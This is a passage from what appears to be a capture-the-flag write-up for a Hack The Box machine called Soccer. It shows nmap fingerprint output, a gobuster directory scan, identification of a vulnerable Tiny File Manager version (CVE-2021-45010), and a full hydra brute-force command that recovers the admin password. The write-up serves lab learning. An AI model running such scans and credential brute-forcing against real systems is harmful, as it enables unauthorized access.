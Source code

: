     SF:20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=
    SF:\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</h
    SF:ead>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HTT
    SF:POptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Poli
    SF:cy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nC
    SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r
    SF:\nDate:\x20Tue,\x2002\x20May\x202023\x2017:47:26\x20GMT\r\nConnection:\
    SF:x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<met
    SF:a\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Ca
    SF:nnot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HTT
    SF:P/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-sr
    SF:c\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20t
    SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Tue,\x
    SF:2002\x20May\x202023\x2017:47:26\x20GMT\r\nConnection:\x20close\r\n\r\n<
    SF:!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"ut
    SF:f-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\x
    SF:20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\
    SF:x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,
    SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r
    SF:(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnecti
    SF:on:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
    SF:nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x2
    SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```

- `gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
    ```
    /tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
    ```

- I open the site and find the software version:
    ```html
    <div class="footer text-center">
        &mdash;&mdash; &copy;
        <a href="https://tinyfilemanager.github.io/" target="_blank" class="text-muted" data-version="2.4.3">CCP Programmers</a> &mdash;&mdash;
    </div>
    ```

    This version is vulnerable to: [CVE-2021-45010](https://github.com/BKreisel/CVE-2021-45010)

    To exploit the vulnerability it is necessary to have a valid account, I have no credentials so I do a bruteforce attack:<br>
    `hydra -l admin -P /usr/share/wordlists/rockyou.txt soccer.htb http-post-form "/tiny/tinyfilemanager.php:fm_usr=admin&fm_pwd=^PASS^:Login failed. Invalid username or password"`

    Unfortunately I can't find anything but if I change wordlist in `/usr/share/wordlists/seclist/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt` I can find the password:
    ```
    [80][http-post-form] host: soccer.htb   login: admin   password: admin@123
    ```
